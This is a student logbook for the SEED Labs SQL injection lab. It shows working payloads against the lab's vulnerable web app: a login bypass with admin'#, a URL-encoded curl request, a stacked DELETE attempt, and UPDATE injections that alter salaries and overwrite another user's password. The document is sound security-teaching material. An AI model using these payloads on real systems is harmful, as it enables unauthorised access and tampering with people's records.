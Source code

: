 # Week 8: SEED Labs – SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

> In this task we were asked to get familiar with the SQL commands by playing around with the provided database. 
> First in order to login we used the following command inside the MySQL container:
> ```
> mysql -u root -pdees  
> ```
> Then we used the following command to load the *sqllab_users** database:
>``` 
> use sqllab_users
>```
> We now can start to perform some queries like:
> ``` sql
> show tables
> ```
> ![show_tables](../docs/logbook8/show_tables.jpeg)

> At the end of this tasks we were asked to print the profile information of the employee Alice, we achieved this by running the folowing command:
> ``` sql
> select * from credentials where name = 'Alice'; 
> ```
> ![alice](../docs/logbook8/alice.jpeg)

## Task 2: SQL Injection Attack on SELECT Statement

To complete this task we needed to consider the following query that is used in the user authentication procedure: 
```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

### Task 2.1: SQL Injection Attack from webpage.

> In this subtask we were asked to login as the administrator from the login page, knowing that the administrator username is **admin**. We needed to find what to input in the username and password fields in the login page.
>
> We can explore the following line's vulnerability to manipulate the authentication:
> ```php
> WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
>```
> In the *username* field, we can insert ```admin'#```. This input will firstly close the username string and then comment the rest of the query up until the ```";```. Allowing us to authenticate as the admin without providing a password.  
> The final query becomes this:
> ![query](../docs/logbook8/query.png)
> 
> After getting access as the administrator we could check the emmployees informations:
> ![admin](../docs/logbook8/admin_auth.jpeg)

### Task 2.2: SQL Injection Attack from command line

> In this subtask we needed to accomplish the same goal as the previous subtask, but without using the webpage.  
> The tricky part of this subtask is that when sending the HTTP request, we need to encode the special characters we add, or they're gonna modify the meaning of the request.  
> We ended executing the following command and got access as the administrator on the website:
> ```bash
> curl ’www.seed-server.com/unsafe_home.php?username=admin%27%23'
>```
> The **27** and **23** correspond to the ascii code in hexadecimal of the single quote and cardinal sign respectively.
>
> ![sql_injection](../docs/logbook8/sql_injection.jpeg)

### Task 2.3: Append a new SQL statement

> In this task we tried to modify the database using the same vulnerability in the login page. To accomplish this we needed to append a new SQL statement to update/delete something in the database.  
> We inserted the following line in the username field, to try and delete Bobby's credentials:
> ```php
> admin'; DELETE FROM credential WHERE name='Bobby'";#
>```
> As expected the following error was raised:
> ![error](../docs/logbook8/error.png)
> This is due to a countermeasure implemented in the ```unsafe_home.php ``` file. Basically the MySQLi extension doesn't allow us to perform multiple queries in the database server, due to the possibility of SQL injection.

## Task 3: SQL Injection Attack on UPDATE Statement

In this task we need to consider the following query that's used to update the user information:
```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

### Task 3.1: Modify your own salary  

> In this task we were asked to change Alice's salary. First of all we loged in as Alice and went to the edit profile page. In this page the vulnerable query presented above is used, so we needed to take advantage of it.  
>
> To accomplish the task we inserted the following string in the nickname field: 
> ```sql
> Alice',salary='100000'
> ```
> Firstly the string mantains Alice's nickname, then the single quote closes the string and then we can insert the salary we want to modify.  
> In the next picture we can have a more clear image of the final query:
> ![salary_query](../docs/logbook8/salary_query.png)
>
> Final result:
> 
> ![salary_modified](../docs/logbook8/salary_modified.jpeg)


### Task 3.2: Modify other people’ salary

> This task we needed to modify our boss's salary to the value of ```1```.  
> Following a similar procedure as the previous subtask we can accomplish the goal. We just needed to insert the following string in the edit nickname field on the edit page on Alice's account:
>```sql
> ',salary='1' where name = 'Bobby';#
>```
> Again, to have a better idea of the final query:
> ![bobby_broke_sql](../docs/logbook8/bobby_broke_sql.png)
>
> In order to check the results we can run the following query in the database:
> ![bobby_broke](../docs/logbook8/bobby_broke.jpeg)

### Aditional task -> Task 3.3: Modify other people’ password.

> The goal of this subtask was to change Bobby's password.  
>
> To accomlish this task we changed Bobby's password to Alice's password.   
> Again, in the edit profile section in Alice's account we inserted the following string:
>```php
>',password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' where name = 'Boby';#
>```
>
> To check the results we run the following query:
>  
> ![changed_bobby_pass](../docs/logbook8/changed_bobby_pass.jpeg)
